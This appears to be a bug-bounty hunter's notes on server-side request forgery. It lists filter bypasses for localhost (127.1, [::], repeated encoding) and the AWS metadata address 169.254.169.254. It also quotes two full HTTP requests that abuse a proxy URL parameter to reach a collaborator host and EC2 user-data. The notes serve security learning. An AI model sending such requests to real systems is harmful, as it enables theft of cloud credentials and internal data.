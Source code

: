 He tried for aws creds but not luck 

 http://169.254.169.254/latest/dynamic/instance-identity/document 
reveals the private IP, account ID, server information, etc and then made a report immediately.






-----

127.0.0.1 - 127.1 -http://[::]:80/

 if still blocked then try single and double encoding base64 and other encoding always


-----

-> Bypassing SSRF like Boss

https://subhajitsaha.com/bypassing-ssrfs-like-a-king/

---

-> Simple [SSRF](https://medium.com/@mase289/a-tale-of-my-first-ever-full-ssrf-bug-4fe71a76e9c4)

In subdomain we can put our email 

```
POST /cloud-app/api/proxy-post?url=https%3A%2F%2Fredacted.eu11.list-manage.com%2Fsubscribe%2Fpost%3Fu%3D65bd5a1857b73643aad556093%26amp%3Bid%3D934e9ffdc5 HTTP/1.1 
Host: collate.redacted.com 
Content-Length: 108 Authorization: ApiKey 123abc-123abc-123abc-123abc-3eedacebb860 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36 
Content-Type: application/x-www-form-urlencoded 
Accept: */* Origin: http://collate.redacted.com 
Referer: http://collate.redacted.com/cloud-app 
Accept-Encoding: gzip, deflate Accept-Language: en-US,en;q=0.9 Cookie:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx; 
Connection: close
b_65bd5a1857b73643aad556093_934e9ffdc5=&EMAIL=foobar@gmail.com
```

Modifying the URL parameter in the above request with a payload from my burp collaborator client caused the server to make HTTP requests to the supplied collaborator URL.  and it worked so tried different protocol for ssrf but nothing worked 

Then he tried for EC2 instance  and change request to GET

```
GET /cloud-app/api/proxy-post?url=http%3A%2F%2F169.254.169.254%2Flatest/user-data%3Fu%3D65bd5a1857b73643aad556093%26amp%3Bid%3D934e9ffdc5 HTTP/1.1 
Host: collate.redacted.com 
Content-Length: 108 Authorization: ApiKey 123abc-123abc-123abc-123abc-3eedacebb860 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.138 Safari/537.36 
Content-Type: application/x-www-form-urlencoded 
Accept: */* Origin: http://collate.redacted.com 
Referer: http://collate.redacted.com/cloud-app 
Accept-Encoding: gzip, deflate Accept-Language: en-US,en;q=0.9 Cookie:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx; 
Connection: close
b_65bd5a1857b73643aad556093_934e9ffdc5=&EMAIL=foobar@gmail.com
```
